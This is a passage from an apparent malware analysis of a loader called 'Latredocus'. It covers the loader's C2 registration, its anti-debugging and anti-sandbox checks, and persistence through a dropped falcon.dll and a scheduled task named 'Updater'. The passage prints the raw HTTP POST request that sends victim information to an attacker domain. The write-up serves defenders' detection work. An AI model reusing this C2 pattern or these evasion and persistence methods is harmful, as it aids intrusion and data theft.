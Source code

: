 The initial POST request sent to the C2 server includes the following details:

```
POST https://aytobusesre.com/live/ HTTP/1.1
Accept: */*
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; Tob 1.1)
Host: aytobusesre.com
Content-Length: 256
Cache-Control: no-cache
```

This request contains victim information and configuration details, effectively registering the infected system with the C2 server. The use of HTTPS ensures secure transmission of data between the malware and the C2 server, while encryption helps protect the contents of the communication from detection and analysis.

Understanding Latredocus's C2 communication mechanisms is crucial for cybersecurity professionals to detect and mitigate the malware's impact on compromised systems and prevent further unauthorized activities.

#### 5. Anti-Analysis Techniques
Latredocus employs several anti-analysis techniques to evade detection and hinder analysis efforts:
    ![image](https://hackmd.io/_uploads/HkVxs3Su0.png)
     <figcaption><center>Fig. 11 Code shows that malware does and the anti-debugging check</center></figcaption>
    The malware actively checks for dynamic debugging environments and terminates execution upon detection. This behavior is crucial for thwarting attempts to inspect its runtime behavior and evade detection by security analysts.
    ![image](https://hackmd.io/_uploads/rJxfnnHOC.png)
    <figcaption><center>Fig. 12 shows the anti-sandbox and virtual machine check</center></figcaption>
    
Latredocus also includes mechanisms to detect virtualized environments such as sandboxes. By monitoring the number of running processes and other environmental cues, it attempts to identify if it is executing in an isolated or monitored environment. This technique helps the malware evade detection during analysis and prevent security researchers from accurately assessing its capabilities.

#### 6. Malware Setup followed with Persistence
Latredocus establishes itself on infected systems with careful setup and persistence mechanisms:
    ![image](https://hackmd.io/_uploads/HyY0j6ruR.png)
    <figcaption><center>Fig.14 Malware creates a copy of the falcon.dll and drops it into shown folder.</center></figcaption>
After the initial installation, Latredocus drops a copy of falcon.dll into a specific directory on the system. This step ensures redundancy and allows the malware to continue functioning even if the original DLL is removed or altered.
    ![image](https://hackmd.io/_uploads/BJEIgCrOC.png)
    <figcaption><center>Fig.15 Scheduled Task created </center></figcaption>
Latredocus creates a scheduled task named "Updater" as part of its persistence strategy. This task is hardcoded within the malware and ensures that the malicious activities resume automatically at predefined intervals or conditions.
    ![image](https://hackmd.io/_uploads/B1ROeRrOA.png)
    <figcaption><center>Fig.16 Details about the created scheduled task for persistence</center></figcaption>
    The scheduled task created by Latredocus includes specific configurations and parameters designed to maintain persistence. This includes details such as execution triggers, frequency, and actions taken upon execution, ensuring the malware's continuous operation on the infected system.
